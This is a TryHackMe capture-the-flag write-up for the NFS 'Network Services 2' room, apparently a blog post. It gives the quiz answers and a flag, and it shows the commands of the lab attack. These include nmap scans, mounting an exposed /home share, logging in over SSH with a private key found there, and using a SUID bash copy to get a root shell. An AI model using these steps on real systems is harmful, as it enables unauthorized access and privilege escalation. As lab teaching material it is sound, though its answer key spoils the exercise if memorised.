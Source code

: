 ```yaml
---
layout: post
title: Network Services 2 Room Writeup
categories: [TryHackMe]
tags: [Writeup]
---
```


# TryHackMe: Network Services 2 Room Writeup

> Enumerating and Exploiting More Common Network Services & Misconfigurations

### Task 2

**What does NFS stand for?**

> Network File System

**What process allows an NFS client to 
interact with a remote directory as though it was a physical device?**

> mounting

**What does NFS use to represent files and directories on the server?**

> file handle

**What protocol does NFS use to communicate between the server and client?**

> RPC

**What two pieces of user data does the NFS server take as parameters for 
controlling user permissions? Format: parameter 1 / parameter 2**

> user ID / group ID

**Can a Windows NFS server share files with a Linux client? (Y/N)**

> Y

**Can a Linux NFS server share files with a MacOS client? (Y/N)**

> Y

**What is the latest version of NFS? [released in 2016, but is still up to date as of 2020] This will require external research.**

> 4.2

Task 3

**Conduct a thorough port scan scan of your choosing, how many ports are open?**

In practice, when you use nmap to scan a huge range of ports, it can take really a long time. So instead of setting up a huge port range, we can divide it into several ranges to make the scanning time short.

```
nmap -A -p1-10000 10.10.186.1
nmap -A -p10001-20000 10.10.186.1
nmap -A -p20001-30000 10.10.186.1
nmap -A -p30001-40000 10.10.186.1
nmap -A -p40001-50000 10.10.186.1
```

> 7

**Which port contains the service we're looking to enumerate?**

> 2049

**Now, use /usr/sbin/showmount -e [IP] to list the NFS shares, what is the name of the visible share?**

```
showmount -e 10.10.186.1
```

> /home

**Change directory to where you mounted the share- what is the name of the folder inside?**

```
mkdir /tmp/mount
mount -t nfs 10.10.186.1:/home /tmp/mount/ -nolock
cd /tmp/mount/
ls
```

> cappucino

**Which of these folders could contain keys that would give us remote access to the server?**

> .ssh

**Which of these keys is most useful to us?**

> id_rsa

**Can we log into the machine using *ssh -i <key-file> <username>@<ip>* ? (Y/N)**

```
cp id_rsa ~
cd ~
chmod 600 id_rsa
ssh -i id_rsa cappucino@10.10.186.1
```

> Y

### Task 4

**Now, we're going to add the SUID bit permission to the bash executable 
we just copied to the share using "sudo chmod +[permission] bash". What 
letter do we use to set the SUID bit set using chmod?**

```
chmod +s bash
```

> s

**Let's do a sanity check, let's check the
 permissions of the "bash" executable using "ls -la bash". What does the
 permission set look like? Make sure that it ends with -sr-x.**

```
chmod +x bash
ls -la bash
```

> rwsr-sr-x

**Now, SSH into the machine as the 
user. List the directory to make sure the bash executable is there. Now,
 the moment of truth. Lets run it with "*./bash -p*". The -p persists the permissions, so that it can run as root with SUID- as otherwise bash will sometimes drop the permissions.**

```
ssh -i id_rsa cappucino@10.10.186.1
./bash -p
```

Now we have entered into a root shell.

> No answer needed

**Great! If all's gone well you should have a shell as root! What's the root flag?**

Change to root home directory, then you can find a text file containing the flag.

```
cd /root
cat root.txt
```

> THM{nfs_got_pwned}